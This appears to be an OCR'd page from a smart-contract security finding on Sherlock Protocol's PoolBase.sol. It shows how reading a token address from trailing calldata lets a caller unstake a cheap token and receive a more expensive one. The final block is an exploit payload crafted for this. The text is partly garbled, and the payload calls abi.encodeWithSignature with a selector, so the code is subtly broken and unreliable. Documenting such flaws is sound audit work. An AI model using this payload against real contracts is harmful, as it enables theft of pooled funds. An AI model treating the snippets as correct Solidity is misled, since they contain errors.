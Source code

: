 ``` solidity
    // From Sherlock Protocol: PoolBase.sol
    function bps() internal pure returns (IERC20 rt) {
        // These fields are not accessible from assembly
        bytes memory array = msg.data;
        uint256 index = msg.data.length;

        // solhint-disable-next-line no-inline-assembly
        assembly {
            // Load the 32 bytes word from memory with the address on the lower 20 bytes, and mask those.
            rt := and(mload(add(array, index)), 0xffffffffffffffffffffffffffffffffffffffff)
        }
    }
}
```

This example can be used to exploit the protocol:

``` solidity
function unstake(
  uint256 _id,
  address _receiver,
  IERC20 _token
) external override returns (uint256 amount) {
  PoolStorage.Base storage ps = baseData();
  require(_receiver != address(0), 'RECEIVER');
  GovStorage.Base storage gs = GovStorage.gs();
  PoolStorage.UnstakeEntry memory withdraw = ps.unstakeEntries[msg.sender][_id];
  require(withdraw.blockInitiated != 0, 'WITHDRAW_NOT_ACTIVE');
  // period is including
  require(withdraw.blockInitiated + gs.unstakeCooldown < uint40(block.number), 'COOLDOWN_ACTIVE');
  require(
    withdraw.blockInitiated + gs.unstakeCooldown + gs.unstakeWindow >= uint40(block.number),
    'UNSTAKE_WINDOW_EXPIRED'
  );
  amount = withdraw.lock.mul(LibPool.stakeBalance(ps)).div(ps.lockToken.totalSupply());

  ps.stakeBalance = ps.stakeBalance.sub(amount);
  delete ps.unstakeEntries[msg.sender][_id];
  ps.lockToken.burn(address(this), withdraw.lock);
  _token.safeTransfer(_receiver, amount);
}
```

State token `Token1`. Let's say there is a more expensive token
`Token2`.

Here's an example exploit:

``` solidity
bytes memory exploitPayload = abi.encodeWithSignature(
    PoolBase.unstake.selector,
    (uint256(_id), address(_receiver), address(Token2), address(Token1))
);
poolAddress.call(exploitPayload);
```

